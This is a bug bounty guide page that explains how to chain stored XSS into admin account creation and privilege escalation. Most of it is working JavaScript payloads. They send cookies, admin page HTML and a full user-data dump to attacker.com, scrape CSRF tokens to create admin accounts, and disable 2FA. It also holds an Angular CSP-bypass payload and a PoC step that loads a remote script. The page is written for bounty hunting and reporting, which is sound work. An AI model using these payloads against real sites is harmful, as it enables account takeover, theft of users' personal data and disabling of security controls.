

> Source: https://bugbounty.info/Chains/XSS-to-Privilege-Escalation

# XSS to Admin Action to Privilege Escalation

## Why This Chain Works

Stored XSS that fires in a user context is a medium. Stored XSS that fires in an admin context is a different animal. Admins have endpoints that regular users don't. When your payload executes in their browser, you're running code with their session. That means you can create new admin accounts, change passwords, exfiltrate every user's PII, or disable security controls.

Related: [XSS](../Attack-Surface/Web/Injection/XSS/), [CSRF](../Attack-Surface/Web/Client-Side/CSRF), [Content Discovery](../Recon/Content-Discovery)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the Injection Point

Profile fields, comments, support tickets, product reviews, file names, user bios, notification messages. Anything that an admin would view as part of their workflow is gold. Support tickets are the classic: you submit a ticket, an admin reads it, your payload fires.

Test with a basic exfil payload first to confirm execution context:

```javascript
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie + '&url=' + document.location)
</script>
```

If you see an admin URL or an admin session cookie in your logs, you've confirmed admin-context execution.

### 2. Enumerate Admin Endpoints from the Payload

Before doing anything destructive, map what's available:

```javascript
<script>
fetch('/admin/').then(r => r.text()).then(html => {
  fetch('https://attacker.com/log?html=' + btoa(html))
})
</script>
```

Parse the admin panel HTML to find endpoints. Look for forms, API calls in the page source, and navigation links.

### 3. Payloads for Common Admin Actions

**Create a new admin account:**

```javascript
<script>
fetch('/admin/users/create', {
  method: 'POST',
  headers: {'Content-Type': 'application/json', 'X-CSRF-Token': getCSRF()},
  body: JSON.stringify({username:'pwned',password:'P@ssw0rd123!',role:'admin',email:'attacker@attacker.com'})
})
</script>
```

You need the CSRF token. Grab it first:

```javascript
<script>
function getCSRF() {
  // Synchronous XHR to get CSRF token from admin page
  var xhr = new XMLHttpRequest();
  xhr.open('GET', '/admin/users/create', false);
  xhr.send();
  var match = xhr.responseText.match(/csrf[_-]token["\s]+value="([^"]+)"/i);
  return match ? match[1] : '';
}
</script>
```

**Full chain: grab CSRF then create admin:**

```javascript
<script>
fetch('/admin/users/new').then(r => r.text()).then(html => {
  var token = html.match(/name="csrf_token" value="([^"]+)"/)[1];
  return fetch('/admin/users', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'csrf_token=' + token + '&username=bbtest&email=bbtest@pwn.com&password=Bbtest123!&role=admin'
  });
}).then(() => {
  fetch('https://attacker.com/done')
});
</script>
```

**Exfiltrate all users:**

```javascript
<script>
fetch('/admin/api/users?limit=1000').then(r => r.json()).then(data => {
  fetch('https://attacker.com/users', {
    method: 'POST',
    body: JSON.stringify(data)
  })
})
</script>
```

**Disable 2FA on a specific account:**

```javascript
<script>
fetch('/admin/users/12345/security', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({disable_2fa: true})
})
</script>
```

### 4. Persistent Backdoor via XSS

If you can create an admin account, you have persistence. Log in with those creds after the XSS fires. You don't need the session cookie, you have a full credential set.

---

## Bypassing CSP

If the target has a Content Security Policy that blocks inline scripts or external fetches, check for:

- Script gadgets in loaded libraries (Angular, jQuery)
- JSONP endpoints on the same origin
- Allowed CDN domains that serve your payload
- `script-src 'unsafe-eval'` that allows eval-based gadgets
- Dangling script src on allowed domains

```javascript
// Angular template injection as CSP bypass if angular is allowed
{{constructor.constructor('fetch("https://attacker.com?c="+document.cookie)')()}}
```

---

## Finding Admin XSS Triggers

Common places admins view user-supplied content:

- Support ticket body and subject
- User profile display name and bio
- Product/listing title and description
- Error messages or feedback fields
- File upload filenames (especially in admin file manager)
- Webhook or callback URL fields shown in admin logs
- IP address or User-Agent fields logged in admin audit logs

---

## PoC Template for Report

```text
1. Inject payload into support ticket subject: <script src="https://attacker.com/payload.js"></script>
2. Admin views ticket at /admin/tickets/1234
3. payload.js executes in admin context, grabs CSRF token, POSTs to /admin/users
4. New admin account "bbtest-proof" created (immediately deleted after screenshot)
5. Logged in with bbtest-proof credentials, confirmed admin dashboard access
6. Screenshots: payload firing (Burp log), account creation response (200 OK), admin login
```

---

## Reporting Notes

Self-XSS is not worth reporting. Stored XSS that fires only for the victim themselves is low. The chain that matters is: stored XSS + admin views it + admin action = critical. Prove the admin-context execution explicitly. Show the CSRF bypass. Show the admin account creation or data exfil. The triager needs to understand that this isn't just an alert box.
